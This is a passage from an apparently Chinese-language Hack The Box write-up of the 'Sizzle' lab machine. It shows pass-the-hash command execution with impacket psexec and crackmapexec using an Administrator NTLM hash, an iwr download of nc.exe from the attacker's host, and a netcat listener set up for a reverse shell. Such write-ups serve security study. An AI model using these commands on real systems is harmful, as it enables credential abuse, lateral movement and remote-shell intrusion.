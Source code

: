 我现在有了所有用户的散列。然后我尝试使用 impacket 中的`psexec.py`来执行命令，如`Administrator`:

```
/opt/impacket/examples/psexec.py htb/administrator@10.10.10.103 whoami -hashes :f6b7160bfc91823792e0ac3a162c9267
```

![](img/0f2e7b68f512e0484901c0d9492126e0.png)

可惜就是挂了。然后我使用`cme`运行命令`hostname`，使用`-x`标志:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -x hostname
```

![](img/e2d84fc419db49c18e42c13362e9e4c7.png)

我得到了`sizzle`的响应，这意味着一切看起来都很好。然后，我尝试使用`-X`标志通过 PowerShell 执行一个命令:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -X gci
```

![](img/c075ec36249b99b43f61186f73a3d99e.png)

我得到了我所期待的。我现在可以简单地上传一个`netcat`可执行文件，并使用它获得一个反向 shell。我在 SIZZLE 机器上下载了一个可执行文件:

```
iwr -uri [http://10.10.14.3/nc.exe](http://10.10.14.3/nc.exe) -outfile nc.exe
```

我在我的 Kali 上设置了我的监听器:

```
rlwrap nc -nlvp 9001
```
